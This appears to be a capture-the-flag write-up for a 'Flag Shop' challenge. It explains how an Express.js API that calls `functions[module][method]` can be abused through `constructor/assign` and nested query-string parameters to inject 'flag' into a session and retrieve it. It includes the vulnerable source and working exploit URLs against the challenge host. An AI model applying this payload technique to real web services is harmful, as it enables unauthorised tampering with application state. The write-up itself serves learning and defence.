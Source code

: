 # Flag Shop

## Challenge (645 points, 11 solves)

> Classic flag shop challenge. Can you buy the flag?
> 
> Author: ocean

## Summary

The challenge highlights the fact that javascript object has default methods and properties that can be called via dictionary key-access (i.e. `obj[key]`).

Another important concept used to solve the challenge is sending JSON via GET parameters.

## Analysis

There is only one endpoint that can be used to exploit:

```js
const functions = {
    order: require('./functions/order'),
    menu: require('./functions/menu'),
    shop: require('./functions/shop'),
    user: require('./functions/user'),
};

app.get('/api/:module/:method', async (req, res) => {
    if (!req.session.order) {
        req.session.order = [];
    }
    const { module, method } = req.params;
    const arg = req.query.arg;
    if (!functions[module] || !functions[module][method] || typeof functions[module][method] !== 'function')
        return res.status(404).send("Method not found");
    let callable = functions[module][method];
    return res.status(200).send(JSON.stringify({ result: callable(req.session, arg) }));
});
```

My initial thought was that the modules have some broken access that can be exploited to read the flag. And indeed, there is an endpoint to read the flag. In `./functions/user.js`:

```js
const user = module.exports;

user.checkout = (sess, _) => {
    console.log("sessions", sess);
    for (const item of sess.order) {
        console.log("item", item);
        if (item === "flag"){
            return process.env.FLAG;
        }
    }
    sess.order = [];
    return 'ok';
}
```

This suggests that we need to add the item `flag` into our order. Looking at the only endpoint that can used to add items into our order, in `./functions/order.js`:

```js
const order = module.exports;
const menu = require('./menu');
order.add = (sess, item) => {
    if (Object.keys(menu.items).includes(item)) {
        sess.order.push(item);; 
    }
    return sess.order;
}
```

And in `./functions/menu.js`:

```js
const menu = module.exports;
menu.items = {
    'egg fried rice': 10, 
    'chang': 20,
    'singha': 20, 
    'butter cack': 5,
    'green curry': 7,
    'tom yum': 8,
}
```

The order endpoint ensures that any item added to basket must be one of the pre-defined items.

The other endpoints were of nothing suspicious. In fact, I could have written those lines in one of my projects. This questioned whether I actually wrote safe code in my projects 🤔.

When it seems like the app is very safe, we realised one thing: we can access default properties and methods of objects, via key access, too! For example, to access `Object.keys`, we can do the following:

```js
({})["constructor"]["keys"]
```

Amazing right! So looking at the only endpoint, we have a lot of key-access to objects. Our task is now to access the correct function, and invoke it with the correct argument.

One potential such candidate is, `Object.assign`. Hence we can access the following endpoint:

```
http://challs.nusgreyhats.org:33335/api/constructor/assign/?arg=
```

Ideally, the equivalent javascript code should be as follows:

```js
Object.assign(req.session, { order: ['flag'] });
```

However, in GET parameter, we can only provide string or an array of string, not an object. Or at least we think so. Not really! After searching the web for a while, we found the following [StackOverflow answer](https://stackoverflow.com/questions/15872658/standardized-way-to-serialize-json-to-query-string#answer-40156535). We can pass the object as follow:

```
?[arg][order]=flag
```

The above would become the folllowing in express.js:

```js
req.query.arg = { order: 'flag' }
```

To pass `flag` as an item in an array, we simply pass query param twice. Combine all the above, we make the following request to add `flag` to our order:

```
http://challs.nusgreyhats.org:33335/api/constructor/assign/?[arg][order]=flag&[arg][order]=flag2
```

We indeed get a response from the server that `flag` is in our order. The next step is to simply make an API call to obtain the flag:

```
http://challs.nusgreyhats.org:33335/api/user/checkout
```
